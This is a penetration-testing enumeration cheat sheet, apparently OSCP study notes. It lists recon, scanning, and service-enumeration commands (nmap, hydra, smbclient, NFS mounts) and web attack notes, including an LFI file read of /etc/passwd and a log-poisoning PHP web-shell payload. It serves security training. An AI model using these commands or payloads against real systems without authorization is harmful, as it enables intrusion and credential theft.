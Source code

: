 # Enumeration Quick Reference 
## Checklist 
- [ ] Recon 
- [ ] (If given a range): what hosts are on the network
- [ ] Open well known ports (0-1023)
- [ ] What are these ports used for (banner grab) 
- [ ] Open high ports (12024-65535) 
- [ ] Operating system 
- [ ] FTP or SMB anon log in 
- [ ] Exploitable services versions (searchsploit, github, google) 
- [ ] Web enum (see checklist below) 
- [ ] Brute force any services / log in pages   

[Enumeration Mind Map](https://github.com/theonlykernel/enumeration/wiki)     

## Recon   
### OSINT   
[OSINT Tools](https://www.osinttechniques.com/osint-tools.html)  <- List of OSINT tools for any occassion   
[The Harvester](https://github.com/laramies/theharvester)    <- gathers emails, names, subdomains, IPs and URLs      
[Recon-ng](https://github.com/lanmaster53/recon-ng)  <- Recon framework
[hunter.io](https://hunter.io/)       <- find email addresses for a company    

### DNS Look Up 
whois, nslookup, dig, host <-manual tools   
Dierce, DNSenum, DNSrecon <-automated tools  

    nslookup -type=any <DOMAIN>   
    host -t axfr -l <DOMAIN> <DNSSERVER>   
    dig -t mx <DOMAIN>  
    dig -t any <DOMAIN>
    
## Network Enum:  
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "     
    nmap -v -s 192.168.0.0/24   
    nmap -Pn -vv -F -sSU -T4 -oG /kali/192.168.15.200-254.xml 192.168.15.200-254 | grep -v 'filtered|closed' > /kali/quick_recon.txt         

## Host enum 
**Identify os, services/ports/versions. Save results to text files. **   

    autorecon 127.0.0.1 --only-scans-dir -v      
    nmap -A -T 4 -vv 127.0.0.1    
    nmap -sV -p- --min-rate 200 -vv 127.0.0.1     

    nc -nvzw1 192.168.53.120 1-65535 2>&1 | grep open       

## Service Enum   

nmap scripts: /usr/share/nmap/scripts   
nmap --script <name>    --script-help 
	
**Port 21: FTP**
[Enumerating ftp](https://book.hacktricks.xyz/pentesting/pentesting-ftp)   
	
	anon log in: ftp / no password	or 	Anonymous: asdfasdf           
	nmap -sV -Pn -vv -p 21 --script=ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221     
    hydra -C ftp/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -u 127.0.0.1 ftp    
	
**Port 25: SMTP**   
	
	smtp-user-enum -M VRF -u <user.txt> -t 127.0.0.1   
	nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 127.0.0.1  
	
** Port 389: LDAP**  
	
	ldapsearch -h 127.0.0.1 -p 389 -x -s base
**Port 139: SMB** 
check for unauthenticated login, enum with smbmap 
	
    smbclient -L <IP>
    rpcclient -U "" <IP>
    smbclient -U <HOST> -L <IP>
    /usr/bin/smbclient \\\\<IP>\\share <HOST>  
	
**Port 2049: NFS**  
	[Pentesting NFS](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)  
	[No root squash](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)
	
    showmount -e 127.0.0.1
    mkdir /mnt/share   
    sudo mount -t nfs -o v2 127.0.0.1/share /mnt/share -o nolock 
	
## Web Enum 
- [ ] Scan for sub directories and pages   
- [ ] Log in pages - guess default creds, admin:admin, admin:password   
- [ ] File upload (what types of files are accepted?, what checks?)   
- [ ] Intercept HTTP requests with Burp   	

	Reference: [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)    
    [Wappanalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/), [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and [user agent switcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) Firefox extensions  
**Scan for sub directories and pages** 	
    nmap http scripts 
	
    nikto -h http://127.0.0.1:80/ 
	
    dirb http://127.0.0.1/   (default word list: common.txt)     
	
    gobuster dir -u http://127.0.0.1/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -k -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z 


**Login pages** 
	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  
	
Local File Include  
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
	
	
	/etc/passwd, etc.
	can you include a remote file?
	?test=php://filter/convert.base64-encode/resource=/filepath  base64 encode /decode  
Log Poisoning 
	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id    

	
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
	
Local File Inclusion 
 
	
	
	
	  
Web vulnerabilities to gain access to the system - paper 
https://www.exploit-db.com/papers/13017/  
Bypassing File Upload Restrictions 
http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html  
Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html http://www.sqlinjection.net/login/
